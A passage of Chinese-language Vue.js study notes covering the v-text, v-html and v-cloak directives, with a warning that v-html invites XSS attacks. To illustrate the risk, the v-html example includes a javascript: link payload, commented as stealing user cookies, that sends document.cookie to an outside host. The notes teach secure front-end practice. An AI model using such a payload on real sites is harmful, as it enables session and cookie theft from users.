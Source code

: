     - 具體編碼：
        ```vue
        <div v-text="'Hello, ' + name"></div>
        
        <script>
        new Vue({
            data:{
                name:'Donald'
            },
        })
        </script>
        ```


2. `v-html`
    - 作用：向指定節點中渲染包含html結構的內容

    - 與插值語法的區別：
        1. `v-html`會替換掉節點中的所有內容
        2. `v-html`可以識別`html`結構

    - <font color="#f54747">嚴重注意：v-html有安全性問題：</font>
        1. 在網站上動態渲任意HTML是非常危險的，容易導致XSS攻擊
        2. 一定要在可信的內容上使用v-html，永遠不要再用戶提交的內容上使用

    - 具體編碼：
        ```vue
        <div v-html="str"></div>
        <div v-html="str2"></div>
        
        <script>
        new Vue({
            data:{
                str: '<h3>Hello World</h3>',
                // 竊取用戶cookie
                str2: '<a href=javascript:location.href="http://www.google.com?" + document.cookie>Click Me</a>'
            },
        })
        </script>
        ```


3. `v-cloak`
   
    - 作用：
        - 本質是一個特殊屬性，Vue實例創建完畢並接管容器後，會刪除`v-cloak`屬性
        - 使用css配合`v-cloak`可以解決網速慢時頁面展示出的`{{xxx}}`問題
    
    - 具體編碼：
        ```vue
        <style>
            [v-cloak]{
                /* 避免出現的樣式丟失問題 */
                display: none;
            }
        </style>
        ```
